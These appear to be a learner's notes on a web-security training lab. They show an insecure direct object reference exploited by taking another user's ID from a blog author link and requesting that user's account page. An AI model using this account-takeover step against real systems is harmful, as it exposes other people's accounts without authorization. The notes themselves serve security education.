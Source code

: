 #recon
- my account details wiener:peter
## my-account
- my-account?id=50eff991-4f77-4175-9d06-14b535c86390


## view post 
- /post?postId=9
    ### when we request for a user who posted the blog [the user is carlos]
    - /blogs?userId=c2a57ec3-2ad1-43f4-b438-b33301829c85 

## post a comment


- we have carlos id - c2a57ec3-2ad1-43f4-b438-b33301829c85 

- Let's try accessing his account using my-account request...

use this request:
GET my-account?id=c2a57ec3-2ad1-43f4-b438-b33301829c85 <- carlo's id


BOOM: WE HAVE ACCESS TO CARLOS ACCOUNT...

LESSON: always try looking for leaked user's id in request parameters...
